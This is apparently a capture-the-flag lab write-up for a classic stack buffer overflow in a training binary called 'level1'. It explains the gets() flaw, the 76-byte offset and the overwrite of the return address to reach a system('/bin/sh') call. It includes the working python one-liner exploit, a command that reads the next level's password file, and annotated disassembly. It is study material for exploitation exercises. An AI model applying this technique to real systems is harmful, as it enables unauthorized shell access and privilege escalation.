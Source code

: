 - attack: buffer overflow with direct shell call
- binary behavior: get argument and do nothing
- targeted functions: run and main
- vulnerability in main: gets() function (receives user input) has no buffer limit
- vulnerability in run: system() runs /bin/sh

Method:
- find return function address
- find the offset padding size
- overflow the binary
- overwrite eip with the return function address
- cat passwd when you will access console with root privedges

Info:
- 0x08048444 - address of run function
- 0x44484080 - same in little-endian
- same in hex - \x44\x84\x04\x08

- eip register address after segfault - 0x63413563
- its offset - 76 (from wiremask.eu)
72 - SIGSEGV, Segmentation fault.
76 - SIGILL, Illegal instruction.

- offset code structure: 76 = 4 (return address) + 72 (padding)


QA
- how do we know the padding size? 
- by interative search

- how do we find the return function address?
- find it in assembler code before finction name: 08048444 <run>

- why we need random pattern generation and simple multiplication of same symbol doesn't work for overflowing in gdb?

- why we use cat here?
- /bin/sh is called through the pipe and became non-interactive (it read stdin with EOF and closes). cat enables interactive listening here

Code:
objdump -d ./level1
gdb level1
    r A # run with argument
(gdb)  r  <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
(python -c 'print "a" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
cat /home/user/level2/.pass

Functions
main
08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp     # put buffer in esp
 8048486:       83 ec 50                sub    $0x50,%esp           # of size 80
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax      # - 16 = 64 and put it in eax 
 804848d:       89 04 24                mov    %eax,(%esp)          # and put in in buffer  
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>   # exploit - buffer in gets
 8048495:       c9                      leave
 8048496:       c3                      ret # put here the adress of run function


run
08048444 <run>: # run function address
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       a1 c0 97 04 08          mov    0x80497c0,%eax
 804844f:       89 c2                   mov    %eax,%edx
 8048451:       b8 70 85 04 08          mov    $0x8048570,%eax
 8048456:       89 54 24 0c             mov    %edx,0xc(%esp)
 804845a:       c7 44 24 08 13 00 00    movl   $0x13,0x8(%esp)
 8048461:       00
 8048462:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048469:       00
 804846a:       89 04 24                mov    %eax,(%esp)
 804846d:       e8 de fe ff ff          call   8048350 <fwrite@plt>
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt> #exploit
 804847e:       c9                      leave
 804847f:       c3


